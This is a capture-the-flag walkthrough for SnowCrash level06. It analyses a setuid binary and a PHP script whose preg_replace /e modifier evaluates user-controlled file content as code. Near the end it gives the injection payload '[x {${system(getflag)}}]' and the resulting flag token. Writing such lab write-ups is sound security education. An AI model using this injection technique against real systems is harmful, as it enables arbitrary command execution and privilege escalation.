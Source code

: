 # Level06

## Walkthrough

Listing the files in the directory, we find a binary file and a php script.

```bash
level06@SnowCrash:~$ ls -la
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x--- 1 flag06 level06 356 Mar 5  2015 level06.php
```

The `s` in `level06` permissions indicates the **setuid** bit. This means the file will run with the privileges of its owner instead of the user executing it. In our case, the owner is **flag06**.

### Analyzing level06 binary file

```bash
level06@SnowCrash:~$ file level06
level06: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs)
```

To analyze the binary file, we transfer it to our local machine using **SCP**.

```bash
level06@SnowCrash:~$ scp -P 4242 level06@127.0.0.1:/home/user/level06/level06 ./
```

We decompile the binary using **dogbolt**.

The script calls `getegid()` and `geteuid()` to retrieve the effective group ID and user ID, and then uses `setresgid()` and `setresuid()` to set them. In our case, these correspond to the **flag06** IDs.

### Analyzing level06.php

```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) { 
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a; 
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

#### The y() function

Input: 
- $m → a string

Behavior: 
- replaces . by “ x ” in $m
- replaces @ by “ y” in $m

Returns $m.

#### The x() function

Input : 
- $y → a path to a file
- $z → unused

Behavior:
- gets the content of the file and stores it in $a
- replaces [ by ( in $a
- replaces ] by ) in $a
- replaces [x something] with the result of y(”something”)

Returns $a.

#### Regex explanations

| PHP | Meaning |
| --- | --- |
| preg_replace() | Search and replace |
| preg_replace("/\./", " x ", $m) | Replace . by ” x “ in $m |
| preg_replace("/@/", " y", $m) | Replace @ by “ y” in $m |
| preg_replace("/\[/", "(", $a) | Replace [ by ( in $a |
| preg_replace("/\]/", ")", $a) | Replace ] by ) in $a |
| preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a) | Replaces [x something] with the result of y(”something”) |

#### Detailed explanation of `preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)`

| Regex | Meaning |
| --- | --- |
| \[x | Matches [x literally |
| (.*) | Nested capture inside Group 1. Captures everything after [x **as Group 2** |
| \] | Matches ] literally |
| **(\[x (.*)\])** | This captures everything from [x …. ] including the brackets as Group 1 |
| /e | Modifier, evaluates the replacement as PHP code |
| **/(\[x (.*)\])/e** | Matches [x something], captures “something” in group 2 and evaluates y(\"\\2\") as PHP code (deprecated for security reason) |

**Exemple:**

**The problem with /e**

/e is a modifier deprecated for security reasons. It is used to evaluate the replacement string as PHP code. 

Normally, preg_replace($pattern, $replacement, $subject) just replaces text, but with /e the replacement part is executed as PHP code. 

**There is a security risk of code injection. To perform an injection in this context means to change the $subject variable.**

In our case $subject is passed through command-line as a file.

First, as we did in previous levels, we create a file into /tmp/ to save the result and set the appropriate permissions so the PHP injection script can write to it.

```bash
level06@SnowCrash:~$ touch /tmp/my_dir/script
level06@SnowCrash:~$ chmod 777 /tmp/my_dir/script
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > script
```

We run the script.

```bash
level06@SnowCrash:~$ ./level06 script
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : **wiok45aaoguiboiki2tuin6ub**
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
